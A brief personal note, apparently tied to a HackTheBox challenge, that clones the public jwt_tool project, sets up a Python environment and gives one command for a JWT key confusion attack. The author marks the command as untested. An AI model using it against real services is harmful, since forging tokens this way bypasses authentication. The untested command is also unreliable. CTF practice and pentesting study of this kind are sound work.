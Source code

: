 Should test it, not sure it works correctly
```bash
git clone https://github.com/ticarpi/jwt_tool
python3 -m venv venv && . venv/bin/activate && pip3 install pycryptodomex termcolor requests
# key confusion attack
python jwt_tool.py <token> -T -X k -pk pkey.key
```

Example of algorithm confusion attack in python:
https://blog.x3ric.com/posts/HackTheBox-Under-Construction-Challenge/

